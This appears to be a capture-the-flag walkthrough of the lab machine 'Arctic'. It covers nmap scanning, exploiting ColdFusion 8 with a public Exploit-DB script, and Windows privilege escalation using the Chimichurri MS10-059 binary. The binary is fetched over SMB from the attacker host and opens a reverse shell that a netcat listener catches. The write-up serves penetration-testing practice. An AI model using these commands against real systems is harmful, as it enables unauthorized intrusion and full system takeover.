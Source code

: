 **Ping**
```
ping 10.10.10.11
```
![[Pasted image 20240619115236.png]]

Nmap Default Scan
```
nmap 10.10.10.11 -oN dnmap
```
![[Pasted image 20240619120159.png]]

Nmap Service and Script Scan
```
nmap 10.10.10.11 -sC -sV -A -oN snmap
```
![[Pasted image 20240619120452.png]]

Nmap All port Scan
```
nmap -p- --min-rate 10000 10.10.10.11 -oN anmap
```
![[Pasted image 20240619120602.png]]

FMTP Enumeration on Port 8500
Moving in /CFIDE
![[Pasted image 20240619121830.png]]

/Administrator looks interesting
![[Pasted image 20240619121747.png]]

Can see the clodfusion version 8
![[Pasted image 20240619121654.png]]

Will search for any public exploits in the internet for the found Coldfusion Version
![[Pasted image 20240619122019.png]]
Found one from Exploit-DB https://www.exploit-db.com/exploits/50057

I have saved the python exploit code in my machine in a file named exp.py
![[Pasted image 20240619122131.png]]

Have to change a small part in the code
![[Pasted image 20240619122415.png]]
Set the lhost, lport, rhost and rport accordingly.

Run the Script
```
python3 exp.py
```
![[Pasted image 20240619122234.png]]
![[Pasted image 20240619122259.png]]
![[Pasted image 20240619122217.png]]
Got it....!

**Got user.txt**
![[Pasted image 20240619123555.png]]

Will jump to Privilege Escalation....!



Will Get System Info
![[Pasted image 20240619130347.png]]
Got the vulnerable build, and we know the method to elevate our privilege.

As we already done this type of PE in Box DEVEL, going to use same exploit **Chimichurri.exe**
https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe
![[Pasted image 20240619130602.png]]
Started smb Share

And copied the binary from our kali
```
copy \\10.10.14.2\kali\Chimichurri.exe
```
![[Pasted image 20240619130646.png]]

Ran the binary according to the usage
```
Chimichurri.exe 10.10.14.2 443
```
![[Pasted image 20240619130733.png]]

Got Reverse shell as Nt/Authority
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240619130824.png]]

**Got root.txt**
![[Pasted image 20240619130929.png]]



Done with Arctic.........:)

